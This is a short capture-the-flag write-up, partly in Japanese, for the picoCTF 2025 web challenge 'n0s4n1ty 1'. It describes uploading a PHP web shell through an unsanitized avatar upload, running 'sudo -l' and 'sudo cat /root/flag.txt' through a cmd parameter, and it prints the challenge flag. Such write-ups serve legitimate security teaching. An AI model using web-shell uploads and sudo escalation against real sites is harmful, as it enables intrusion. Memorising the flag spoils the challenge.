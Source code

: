 # n0s4n1ty 1

- **CTF:** picoCTF 2025
- **Category:** Web Exploitation
- **Difficulty:** Easy

### Description

A developer has added profile picture upload functionality to a website.
However, the implementation is flawed, and it presents an opportunity for you.
Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

### Author
PRINCE NIYONSHUTI N.

### hint
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, `check sudo -l`

### Write-up
shell.phpをサーバーにアップロードします。

アップロードしたWebシェルに?cmd=sudo -lを送信し、www-dataユーザーのsudo権限を確認します。

Shell

Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
これにより、www-dataユーザーがパスワードなしで全てのコマンドをsudo実行できることがわかります。

?cmd=sudo cat /root/flag.txt を実行し、root権限でフラグを読み取ります。

### Flag
`FLAG : picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`
